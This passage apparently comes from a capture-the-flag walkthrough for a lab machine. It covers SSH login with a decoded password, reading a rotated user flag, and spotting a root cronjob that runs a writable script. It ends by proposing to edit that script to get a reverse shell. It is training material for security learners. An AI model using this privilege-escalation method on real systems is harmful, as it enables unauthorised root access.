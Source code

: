 Decode the binary password to retrieve our password credential.

### SSH
```
$ ssh boring@10.10.186.123 -p 6498                
The authenticity of host '[10.10.186.123]:6498 ([10.10.186.123]:6498)' can't be established.
ED25519 key fingerprint is SHA256:6XHUSqR7Smm/Z9qPOQEMkXuhmxFm+McHTLbLqKoNL/Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.186.123]:6498' (ED25519) to the list of known hosts.
*************************************************************************
**        This connection are monitored by government offical          **
**            Please disconnect if you are not authorized              **
** A lawsuit will be filed against you if the law is not followed      **
*************************************************************************
boring@10.10.186.123's password: 
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
boring@kral4-PC:~$ ls
user.txt
boring@kral4-PC:~$ cat user.txt
User Flag But It Seems Wrong Like It`s Rotated Or Something
<RETRIEVE>
```

As the clue suggest, it might be rotated. This could be a Ceasar Cypher. Use [ceaser cypher decoder](https://www.dcode.fr/caesar-cipher) here.

### Privilege Escalation
The room description has already gave us a clue how we can perform privilege escalation: `Practice using tools such as Nmap and GoBuster to locate a hidden directory to get initial access to a vulnerable machine. Then escalate your privileges through a vulnerable cronjob.`

So we will try to exfiltrate its cronjob vulnerability.
```
boring@kral4-PC:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh

boring@kral4-PC:~$ cat /var/www/.mysecretcronjob.sh
#!/bin/bash
# i will run as root
```
We can then modify `.mysecretcronjob.sh` to get a reverse shell.